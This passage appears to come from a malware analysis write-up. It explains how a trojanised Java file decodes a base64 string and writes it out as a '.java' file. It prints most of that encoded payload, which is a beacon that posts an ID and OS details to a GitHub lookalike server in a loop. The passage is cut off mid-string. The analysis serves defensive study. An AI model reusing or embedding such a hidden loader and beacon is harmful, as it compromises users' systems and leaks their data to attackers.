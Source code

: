 In this function, the malware tries to vaguely determine which platform is being used (Windows or Unix), to understand where and how (with backslash or normal slash) to write a "log" file with a `.java` extension. To this file it writes the contents of the `b64dec` variable which can be found a few lines higher in the file.

```java
byte [] b64dec = Base64.getDecoder().decode(QUIET_ZONE_DATA);
```

As we can see in this snippet, `b64dec` stores the result of decoding the `QUIET_ZONE_DATA` variable from `base64`. Digging a little deeper into the code it is possible to find the content of `QUIET_ZONE_DATA`:

```java
public static String QUIET_ZONE_DATA = "aW1wb3J0IGphdmEuaW8uSU9FeGNlcHRpb247CmltcG9ydCBqYXZhLm5ldC5VUkk7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBDbGllb"
          + "nQ7CmltcG9ydCBqYXZhLm5ldC5odHRwLkh0dHBSZXF1ZXN0OwppbXBvcnQgamF2YS5uZXQuaHR0cC5IdHRwUmVzcG9uc2U7CmltcG9ydCBqYXZhLm5pby5jaGFyc2V0LlN0YW5"
          + "kYXJkQ2hhcnNldHM7CmltcG9ydCBqYXZhLnV0aWwuQmFzZTY0OwppbXBvcnQgamF2YS51dGlsLlJhbmRvbTsKaW1wb3J0IGphdmEuaW8uQnVmZmVyZWRXcml0ZXI7CmltcG9yd"
          + "CBqYXZhLmlvLkZpbGU7CmltcG9ydCBqYXZhLmlvLkZpbGVXcml0ZXI7CmltcG9ydCBqYXZhLmxhbmcuVGhyZWFkOwoKcHVibGljIGNsYXNzIFFSTG9nIHsKCiAgICBwcml2YXR"
          + "lIHN0YXRpYyBmaW5hbCBTdHJpbmcgUE9TVF9VUkwgPSAiaHR0cHM6Ly93d3cuZ2l0LWh1Yi5tZS92aWV3LnBocCI7CgogICAgcHVibGljIHN0YXRpYyB2b2lkIG1haW4oU3Rya"
          + "W5nW10gYXJncykgdGhyb3dzIElPRXhjZXB0aW9uewoKICAgICAgICBzZW5kUE9TVCgpOwogICAgfQoKICAgIHByaXZhdGUgc3RhdGljIFN0cmluZyByYW5kR2VuKCkgdGhyb3d"
          + "zIElPRXhjZXB0aW9uIHsKICAgICAgICBTdHJpbmcgc3RyUG9vbCA9ICIxMjM0NTY3ODkiOwogICAgICAgIFN0cmluZ0J1aWxkZXIgc2IgPSBuZXcgU3RyaW5nQnVpbGRlcigpO"
          + "wogICAgICAgIFJhbmRvbSByYW5kID0gbmV3IFJhbmRvbSgpOwogICAgICAgIAogICAgICAgIGZvciAoaW50IGk9MDsgaTw4OyBpKyspewogICAgICAgICAgICBzYi5hcHBlbmQ"
          + "oc3RyUG9vbC5jaGFyQXQocmFuZC5uZXh0SW50KHN0clBvb2wubGVuZ3RoKCkpKSk7CiAgICAgICAgfQogICAgICAgIAogICAgICAgIHJldHVybiBzYi50b1N0cmluZygpOwogI"
          + "CAgfQogICAgCiAgICBwcml2YXRlIHN0YXRpYyBTdHJpbmcgZ2V0T3BlcmF0aW5nU3lzdGVtKCkgewogICAgICAgIFN0cmluZyBvcyA9IFN5c3RlbS5nZXRQcm9wZXJ0eSgib3M"
          + "ubmFtZSIpOwogICAgICAgIFN0cmluZyByZXN1bHQgPSBudWxsOwogICAgICAgIAogICAgICAgIGlmIChvcy5jb250YWlucygiV2luZG93cyIpKQogICAgICAgICAgICByZXN1b"
          + "HQgPSAiMCI7CiAgICAgICAgZWxzZSBpZiAob3MuY29udGFpbnMoIkxpbnV4IikpCiAgICAgICAgICAgIHJlc3VsdCA9ICIyIjsKICAgICAgICBlbHNlIGlmIChvcy5jb250YWl"
          + "ucygiTWFjIE9TIFgiKSkKICAgICAgICAgICAgcmVzdWx0ID0gIjEiOwogICAgICAgIHJldHVybiByZXN1bHQ7CiAgICB9CiAgICAKICAgIHByaXZhdGUgc3RhdGljIHZvaWQgc"
          + "2VuZFBPU1QoKSB0aHJvd3MgSU9FeGNlcHRpb24gewogICAgICAgIFN0cmluZyB1aWQgPSByYW5kR2VuKCk7CiAgICAgICAgU3RyaW5nQnVpbGRlciBkYXRhID0gbmV3IFN0cml"
          + "uZ0J1aWxkZXIoKTsKICAgICAgICBTdHJpbmcgc2VjX3BhdGggPSAiIjsKICAgICAgICBkYXRhLmFwcGVuZCgiR0lUSFVCX1JFUSIpOwogICAgICAgIGRhdGEuYXBwZW5kKHVpZ"
          + "Ck7CiAgICAgICAgZGF0YS5hcHBlbmQoIjIwMDAiKTsKICAgICAgICBkYXRhLmFwcGVuZChnZXRPcGVyYXRpbmdTeXN0ZW0oKSk7CiAgICAgICAgCiAgICAgICAgd2hpbGUgKHR"
          + "ydWUpCiAgICAgICAgewogICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgaWYgKHNlY19wYXRoLmxlbmd0aCgpID4gMSkgewogICAgICAgICAgICAgICAgICAgIEZpb"
          + "GUgc2VjRmlsZSA9IG5ldyBGaWxlKHNlY19wYXRoKTsKICAgICAgICAgICAgICAgICAgICBpZiAoc2VjRmlsZS5leGlzdHMoKSkKICAgICAgICAgICAgICAgICAgICAgICAgU3l"
          + "zdGVtLmV4aXQoMCk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgIEh0dHBSZXF1ZXN0IHJlcXVlc3QgPSBIdHRwUmVxdWVzdC5uZ"
          + "XdCdWlsZGVyKCkKICAgICAgICAgICAgICAgICAgICAuaGVhZGVyKCJDb250ZW50LVR5cGUiLCAiYXBwbGljYXRpb24vanNvbjsgY2hhcnNldD11dGYtOCIpCiAgICAgICAgICA"
          + "gICAgICAgICAgLnZlcnNpb24oSHR0cENsaWVudC5WZXJzaW9uLkhUVFBfMV8xKQogICAgICAgICAgICAgICAgICAgIC51cmkoVVJJLmNyZWF0ZShQT1NUX1VSTCkpCiAgICAgI"
          + "CAgICAgICAgICAgICAgLlBPU1QoSHR0cFJlcXVlc3QuQm9keVB1Ymxpc2hlcnMub2ZTdHJpbmcoZGF0YS50b1N0cmluZygpKSkKICAgICAgICAgICAgICAgICAgICAuYnVpbGQ"
          + "oKTsKICAgICAgICAgICAgICAgIEh0dHBDbGllbnQgY2xpZW50ID0gSHR0cENsaWVudC5uZXdIdHRwQ2xpZW50KCk7CiAgICAgICAgICAgICAgICBIdHRwUmVzcG9uc2U8U3Rya"
          + "W5nPiByZXNwb25zZSA9IGNsaWVudC5zZW5kKHJlcXVlc3QsIEh0dHBSZXNwb25zZS5Cb2R5SGFuZGxlcnMub2ZTdHJpbmcoKSk7CiAgICAgICAgICAgICAgICBpZiAocmVzcG9"
          + "uc2Uuc3RhdHVzQ29kZSgpICE9IDIwMCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBUaHJlYWQuc2xlZXAoNTAwMCk7CiAgICAgICAgICAgICAgICAgI"
```